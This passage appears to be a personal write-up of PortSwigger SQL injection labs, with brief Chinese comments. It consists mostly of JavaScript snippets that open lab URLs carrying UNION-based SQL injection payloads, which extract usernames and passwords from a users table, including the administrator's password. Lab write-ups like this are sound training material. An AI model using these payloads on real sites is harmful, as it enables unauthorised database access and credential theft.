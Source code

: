 ```js
const url = new URL(`${location.origin}/filter`);
url.searchParams.append(
  "category",
  "Lifestyle' UNION SELECT NULL,'bpaLX3',NULL--",
);
const href = url.href;
window.open(href, "_blank");
```

## Lab: SQL injection UNION attack, retrieving data from other tables

| Dimension | Description                                                                                                                      |
| --------- | -------------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/sql-injection/union-attacks#using-a-sql-injection-union-attack-to-retrieve-interesting-data |
| Lab       | https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables                             |

怎麼感覺跟前面的題目有點像@@

```js
const url = new URL(`${location.origin}/filter`);
url.searchParams.append(
  "category",
  "Lifestyle' UNION SELECT username,password FROM users--",
);
const href = url.href;
window.open(href, "_blank");
```

## Lab: SQL injection UNION attack, retrieving multiple values in a single column

| Dimension | Description                                                                                                        |
| --------- | ------------------------------------------------------------------------------------------------------------------ |
| Document  | https://portswigger.net/web-security/sql-injection/union-attacks#retrieving-multiple-values-within-a-single-column |
| Lab       | https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column     |

結合前面學到的，要猜出哪個 column 是 string

```js
const url = new URL(`${location.origin}/filter`);
url.searchParams.append(
  "category",
  "Accessories' UNION SELECT NULL,password FROM users WHERE username = 'administrator'--",
);
const href = url.href;
window.open(href, "_blank");
```

## Lab: Blind SQL injection with conditional responses
